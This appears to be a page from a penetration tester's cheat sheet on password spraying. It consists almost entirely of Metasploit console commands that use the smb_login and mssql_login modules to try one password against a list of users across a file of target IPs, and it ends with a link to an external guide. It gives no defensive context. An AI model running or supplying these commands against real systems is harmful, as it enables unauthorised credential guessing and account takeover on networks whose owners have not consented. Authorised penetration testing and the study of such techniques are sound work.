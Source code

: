 # Metasploit

Search Tag(s): #password-spraying

## 01 - SMB

```
msf > use auxiliary/scanner/smb/smb_login

msf auxiliary(smb_login)> set rhosts file:ip_targets

msf auxiliary(smb_login)> set user_file users.lst

msf auxiliary(smb_login)> set password <password>

msf auxiliary(smb_login)> set stop_on_success <true | false>

msf auxiliary(smb_login)> run
```

## 02 - MSSQL

```
msf > use auxiliary/scanner/mssql/mssql_login

msf auxiliary(scanner/mssql/mssql_login) > set rhosts file:ip_targets

msf auxiliary(scanner/mssql/mssql_login) > set user_file users.lst

msf auxiliary(scanner/mssql/mssql_login) > set password <password>

msf auxiliary(scanner/mssql/mssql_login) > set stop_on_success true

msf auxiliary(scanner/mssql/mssql_login) > run
```

---
## References

- [Hacking Articles: Comprehensive Guide on Password Spraying Attack](https://www.hackingarticles.in/comprehensive-guide-on-password-spraying-attack/)